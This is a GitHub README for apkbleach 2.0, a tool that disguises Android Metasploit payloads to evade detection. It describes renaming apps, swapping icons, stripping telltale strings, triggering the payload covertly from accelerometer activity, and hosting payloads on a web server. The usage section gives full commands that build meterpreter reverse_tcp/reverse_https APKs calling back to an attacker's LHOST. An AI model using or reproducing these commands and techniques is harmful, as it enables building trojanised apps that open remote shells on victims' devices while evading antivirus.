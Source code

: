 # apkbleach 2.0

**Update**

   11/24/2020 Fixed custom icon injection bug and jarsigner installation bug! Shout out to @VioletChan on youtube for reporting the bug.

![Screen shot of sofware image](https://github.com/graylagx2/Images/blob/master/apkbleach2_final.png)

**About:**

This software was developed specifically for Kali-Linux to obfuscate android payloads in attempts to evade detection. This software also automates the process of changing the app icon, changing the app name, signing the apk, aligning the apk and installing or upgrading apktool.

**Youtube instructional video:**

   https://www.youtube.com/watch?v=tqgscJ93LFw
   
**New Deployment UI feature**

![Screen shot of deployment image](https://github.com/graylagx2/Images/blob/master/apkbleach-deployment-ui.png)

**Features:**

1) User interface for deployment of payloads

2) Line by line permissions editing. The software will go through each permission in the manifest and ask if you want to delete it.

3) Stealth option. This executes the payload off the devices accelerometer instead of on open. This option also allows you to choose how many sessions you want spawned of exploit.

4) Custom icon injection. This allows users to modify the app icon that appears on the home screen of a android device. You can choose from a icon apkbleach provides or you can supply your own. Apkbleach will do all the work for you.

5) Renames the application to the name you put chose as the ouput file

6) Scrubs the entire application of any mentions of the name "metasploit" , "stage" or "payload". There are a lot by the way. sending security testing with an app that contains the name metasploit is just funny :-)

7) Adds padnops to PAYLOAD

8) Signs apk with jarsigner. msfenom produces unsigned apps

9) Zip aligns apk

10) Apktool upgrade feature. If the software detects youre using apktool version 2.4.1-dirty which is Kali's package maintainers version it will ask if you want to replace it with the lates version frfom ibot peaches. This is a good idea because it conflicts with the msfvenom -x option and throws a version number error. Not to mention the problems it has given users in the past.

**Usage:**

    apkbleach -g android/meterpreter/reverse_https LHOST=Address LPORT=port -s 3 -i BLEACH_settings --edit-permissions -o /var/www/html/payload.apk
    
    apkbleach -g android/meterpreter/reverse_tcp LHOST=address LPORT=port -s 3 --edit-permissions --deploy-all

     apkbleach --list-payloads
 
     apkbleach --list-icons
 
     apkbleach --clear-cache
 

**optional arguments:**

      -h, --help            show this help message and exit
  
      -g [PAYLOAD] [LHOST] [LPORT]
                        Generates a payload
                        
      -s [number of sessions to spawn 1-5]
                        Executes payload on accelerometer activity instead of on open
                        
      -i [BLEACH_icon..] or [path/to/custom/icon]
                        Injects an icon
                        
      -o [output/path/for/file.apk]
                        Path to output apk
                        
      --edit-permissions    Enables permission editing in apk's manifest
      
      --deploy-all          Deploys each available icon as a payload with the apache2 server with a web interface
  
      --list-payloads       List available icons
  
      --list-icons          List available icons
  
      --clear-cache         Allows prompt whether to keep package maintainers version apktool
  
**Install instructions:**

After cloning or downloading the repository cd into the apkbleach directory and run run install.sh

    cd apkbleach
    bash install.sh
    
or

    cd apkbleach
    chmod +x install.sh
    ./install.sh
